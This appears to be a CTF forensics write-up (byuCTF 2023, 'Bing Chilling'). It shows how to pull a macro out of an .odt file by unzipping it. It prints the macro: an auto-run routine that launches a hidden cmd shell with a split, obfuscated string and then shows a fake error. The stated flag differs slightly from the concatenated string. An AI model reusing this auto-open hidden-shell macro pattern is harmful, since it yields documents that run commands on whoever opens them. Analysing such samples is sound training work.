 # byuCTF 2023 - Bing Chilling (Forensics)

We were given a zip file which I extracted.

The result was a `.odt` file.

When we open the file we see only a few strange images in the document and are warned that the document contains __macros__.

OK, then let's see what macros are embedded in the document!

I renamed the `.odt` file to a `.zip` file and then extracted it again.

A nice trick to get all embedded documents!

Now I took `egrep -R -i <pattern>` and recursively searched for malicious code.

In `Basic/Project/NewMacros.xml` I found the following Macro code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="NewMacros" script:language="StarBasic" script:moduleType="normal">Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
    Dim FGHNBVRGHJJGFDSDUUUU As String
    FGHNBVRGHJJGFDSDUUUU = &quot;cmd /K &quot; + &quot;byu&quot; + &quot;ctf&quot; + &quot;{&quot; + &quot;m@ldocs @re&quot; + &quot;sn@eky and bad}&quot; + &quot;e -WindowStyle hiddeN -E>
    Shell FGHNBVRGHJJGFDSDUUUU, 0
    MsgBox (&quot;Module could not be found.&quot;)
End Sub

</script:module>
```
If we look at the code, we can already see the flag and just need to clean it from the `&quot; + &quot;` sequences.

Flag: `byuctf{m@ldocs_@re_sn@eky and bad}`
